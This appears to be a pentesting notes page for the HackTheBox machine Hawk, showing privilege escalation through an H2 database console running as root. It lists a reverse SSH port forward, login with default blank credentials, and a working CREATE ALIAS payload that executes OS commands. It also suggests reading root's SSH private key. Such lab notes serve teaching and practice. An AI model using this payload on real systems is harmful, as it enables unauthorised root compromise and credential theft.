


# H2 Database
Examples• hackthebox Hawk
## H2 Running as Root
If H2 is running as
root, you can use it to priv-esc to
root.
daniel@hawk:~$ ps aux | grep root
[...]
root 833 0.0 0.0 4628 860 ? Ss 16:00 0:00 /bin/sh -c /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
root 834 0.7 5.2 2329256 52072 ? Sl 16:00 0:02 /usr/bin/java -jar /opt/h2/bin/h2-1.4.196.jar
[...]
1. Port forward the H2 Database console out to your attacking machine
ssh -R 8082:127.0.0.1:8082 bob@10.10.14.7 -N2. Browse to the H2 database console at
http://127.0.0.1:80823. You most likely can't log in (because the database URL is pointing somewhere you can't access
Change the database URL to a folder that we have write access to
4. Log in with no credentials (no credentials is default credentials)
### Execute Code
• https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html• Standard reverse shells don't normally work (but still try them)
◇ Instead, try reading root's .ssh private key or something
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : ""; }$$;You can then execute code by calling your SHELLEXEC alias and a command.
CALL SHELLEXEC('id')
